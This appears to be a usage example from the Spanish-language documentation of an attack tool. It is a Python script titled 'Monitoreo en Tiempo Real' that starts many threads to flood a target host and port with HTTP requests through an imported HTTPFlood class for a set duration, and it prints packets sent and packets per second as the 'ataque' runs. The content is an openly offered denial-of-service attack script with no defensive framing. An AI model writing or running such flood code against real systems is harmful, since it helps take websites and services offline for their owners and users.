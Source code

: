 ### Ejemplo 3: Monitoreo en Tiempo Real

```python
#!/usr/bin/env python3
from python.core.http_flood import HTTPFlood
import threading
import time

class MonitoredAttack:
    def __init__(self, target, port, threads, duration):
        self.target = target
        self.port = port
        self.threads = threads
        self.duration = duration
        self.flood = HTTPFlood(target, port)
        self.packets_sent = 0
        self.lock = threading.Lock()
        self.start_time = None

    def attack_worker(self):
        while time.time() - self.start_time < self.duration:
            try:
                self.flood.send_request()
                with self.lock:
                    self.packets_sent += 1
            except Exception as e:
                time.sleep(0.1)

    def monitor(self):
        last_count = 0
        while time.time() - self.start_time < self.duration:
            time.sleep(5)
            with self.lock:
                current = self.packets_sent
            
            pps = (current - last_count) / 5
            elapsed = time.time() - self.start_time
            remaining = self.duration - elapsed
            
            print(f"[~] {current} paquetes | {pps:.1f} pps | {remaining:.0f}s restantes")
            last_count = current

    def run(self):
        print(f"[*] Iniciando ataque monitorizado")
        self.start_time = time.time()
        
        # Threads de ataque
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.attack_worker)
            threads.append(t)
            t.start()
        
        # Thread de monitoreo
        monitor_thread = threading.Thread(target=self.monitor)
        monitor_thread.start()
        
        # Esperar
        for t in threads:
            t.join()
        monitor_thread.join()
        
        print(f"[+] Ataque completado. Total: {self.packets_sent} paquetes")
```